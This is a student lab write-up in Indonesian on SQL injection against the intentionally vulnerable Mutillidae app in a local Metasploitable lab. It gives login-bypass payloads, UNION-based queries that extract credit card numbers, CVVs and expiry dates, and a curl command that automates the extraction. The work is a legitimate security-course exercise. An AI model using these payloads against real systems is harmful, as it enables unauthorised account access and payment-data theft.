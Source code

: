 # LAPORAN TUGAS 3 PKSJ
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

___

## MULTIDIAE

### LESSON 5
1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

7. Selanjutnya mencoba injeksi sql pada kolom password. Masukan samurai pada kolom nama, kemudian tanda (') pada kolom password
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.1.png "Injeksi pada kolom password")

8. Untuk menampilkan isi password, klik kanan pada kolom pengisian password, pilih inspect element. Ubah type=password menjadi type=text seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.2.png "Menampilkan isi password")

9. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut, yang menyatakan bahwa (') terdaftar sebagai simbol yang digunakan dalam perintah sql yang "dapat merusak" sebuah query pada web yang rentan terhadap sql injection
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.3.png "error report single quotes on password")

10. Selanjutnya mencoba injeksi sql pada kolom password untuk login kembali. Masukan samurai pada kolom nama, kemudian tanda "'or 1=1-- " (petik 2 tidak perlu diketik juga) pada kolom password. (jangan lupa spasi setelah '-- ' )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.1.png "Injeksi pada kolom password")

11. Untuk menampilkan isi password, klik kanan pada kolom pengisian password, pilih inspect element. Ubah type=password menjadi type=text seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.2.png "Menampilkan isi password")

12. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.3.png "success login as admin")
Meskipun name yang dimasukan adalah samurai, tetapi karena struktur query yang ada, maka dengan menginjeksikan "'or 1=1-- " / selalu benar, maka record yang diambil adalah yang paling atas yaitu record admin.
Setelah itu lakukan logout

13. Selanjutnya mencoba injeksi sql pada kolom password untuk login kembali untuk masuk sebagai user samurai. Masukan samurai pada kolom nama, kemudian klik kanan, pilih inspect element, ubay maxlength=20 menjadi maxlength=50 dan type=password menjadi type text
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.1.png "Inspect element")

  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.2.png "Mengubah maxlength dan type")

14. Masukan "' or (1=1 and username='samurai')-- " pada kolom password, perhatikan untuk memberikan spasi di akhir dari tanda '-- '
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.3.png "Perintah sql injection")

15. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.4.png "success login as samurai")

16. Selanjutnya kita akan mencoba perintah sql pada terminal. Jalankan perintah berikut pada terminal di metasploitable.
Ketikan perintah sudo mysql atau mysql -u [nama_user] -p [password]
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.1.png "success login as root in mysql")
Lalu tekan enter.

17. Ketikan 'show databases;' kemudian tekan enter. Perintah berikut adalah untuk menampilkan semua database yang ada.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.2.png "show database")

18. Ketikan perintah 'use owasp10' untuk memilih database yang akan diakses / active database. (tidak perlu memberikan tanda (;) pada akhir perintah.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.3.png "change database")

19. Masukan perintah 'show tables;' untuk menampilkan list tabel yang ada pada database aktif
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.5.png "show table")

20. Masukan perintah 'desc accounts;' untuk menampilkan format dan struktur dari tabel accounts
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.6.png "desc accounts")

21. Masukan perintah 'select * from accounts;' untuk menampilkan isi dari tabel accounts
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.7.png "query seluruh tabel")

22. Masukan perintah (select * from accounts where username='' and password='';) untuk menampilkan record dengan username='' dan password=''. 
Kemudian perintah (select * from accounts where username='samurai' and password='samurai';) untuk menampilkan record dengan username=samurai dan password=samurai.
Kemudian perintah (select * from accounts where username='samurai' and password='wrongpassword';) untuk menampilkan record dengan username=samurai dan password=wrongpassword.
Kemudian perintah (select * from accounts where username='samurai';-- and password='samurai';) untuk menampilkan record dengan username=samurai dan mengcomment / mengabaikan perintah selanjutnya. Untuk lebih jelas dapat dilihat pada gambar berikut ini.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.8.png "query 4 macam")

23. Mencoba hasil single quote test / memasukan (') pada kolom username. Dapat dilihat bahwa input (') merusak query sehingga tida menghasilkan apapun kecuali ditambahkan dengan (';)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.9.png "hasil query (')")

24. Mencoba hasil query (select * from accounts where username = '' or 1=1; --   and password = '';). Dapat dilihat bahwa input ini mengembalikan hasil seluruh record pada tabel karena perintah always true.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.10.png "hasil query always true")

25. Mencoba hasil query (select * from accounts where username = 'samurai' and password = '' or 1=1; -- ';). Dapat dilihat bahwa input ini mengembalikan hasil seluruh record pada tabel karena perintah always true dan struktur perintah dari mutilidae.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.11.png "hasil query always true")

26. Mencoba hasil query (select * from accounts where username = 'samurai' and password = '' or (1=1 and username = 'samurai'); -- ';).Dapat dilihat bahwa input ini mengembalikan hasil berupa record dengan username adalah samurai tanpa perlu mengetahui password.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.12.png "hasil query user samurai")


### LESSON 8
1. Pada terminal metasploitable jalankan perintah berikut.
Ketikan perintah (sudo mysql atau mysql -u [nama_user] -p [password]). Lalu tekan enter. Ketikan perintah (show databases;) untuk menampilkan list dari database yang ada
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.1.png "success login as root in mysql")

2. Ketikan perintah (use owasp10) untuk memilih database yang aktif. Lalu perintah (show tables;) untuk menampilkan seluruh tabel pada database aktif.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.2.png "change database and show table")

3.Ketikan perintah (desc accounts;) untuk menampilkan struktur tabel dari accounts. Lalu ketikan perintah (desc credit_cards;) untuk menampilkan struktur tabel dari credit_cards.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.3.png "desc accounts and credit_cards table")

4. Ketikan perintah (select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards;). union digunakan untuk mengabungkan hasil query beberapa statement select menjadi 1 tabel.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.4.png "union query")

5. Selanjutnya, buka browser pada kali linux dan ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.1.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

6. Pilih owasp10, injection, sqli-extract data, user info
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.2.png "open userinfo")

7. Ketikan perintah (' union select null -- ) pada kolom nama. lalu tekan enter 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.3.png "union query")

8. Hasil error menunjukan bahwa query yang diunion memiliki jumlah kolom yang berbeda.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.4.png "union query")

9. Klik kanan pada kolom name, pilih inspect element, kemudian ubah size dari kolom inputan nama menjadi 50 dengan mengubah size=20 menjadi size=50. Kemudian lakukan percobaan dengan menambah kolom yang diunion dengan cara menambah (,null) pada akhir pada perintah select sehingga menjadi (' union select null,null -- ). Pada gambar digunakan 5 null yang menyatakan 5 kolom yang akan di union kan. Untuk kasus yang lain jumlah null harus dicoba dan diiterasi sendiri.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.5.png "mencari jumlah kolom")

10. Hasilnya ketika di enter adalah tidak ada lagi error yang menyatakan bahwa union telah berhasil.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.6.png "union berhasil")

11. Selanjutnya untuk memetakan mana kolom pada database yang berhubungan dengan angka-angka ketika output ditampilkan, maka digunakan perintah (' union select 1,2,3,4,5 -- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.7.png "memetakan output")

12. Hasilnya ketika dienter adalah 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.8.png "hasil memetakan output")

13. Selanjutnya untuk mengeluarkan hasil yang diinginkan yaitu yang ada pada tabel credit_card maka dilakukan dengan perintah (' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- )(jangan lupa spasi pada akhir perintah (-- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.9.png "union sql injection")

14. Hasilnya ketika dienter adalah
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.10.png "hasil union sql")
Data pada username menyatakan nomor kartu kredit, password menyatakan password, dan signature adalah masa berlaku.

15. Ketika dilakukan dengan curl, ketikan perintah ini pada termintal (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'). Perlu menganti alamat ip agar sesuai.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.1.png "use curl")

16. Hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.2.png "output use curl")
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.3.png "output use curl")

17. Untuk membuat output file maka ketikan perintah (cd /root)
kemudian ketikan perintah berikut (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt). Perlu menganti alamat ip agar sesuai. Kemudian ketikan perintah (cat lesson8.txt) untuk menampilkan. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.4.png "cat the use of curl")

18. Selanjutnya adalah mendownload output parser. Tujuannya adalah agar hasil crawl dapat dibaca dengan baik. pertama ketikan perintah (cd /root) untuk pindah ke dokumen root. kedua, ketikan perintah (wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT) untuk mendownload parser dalam bahasa perl.


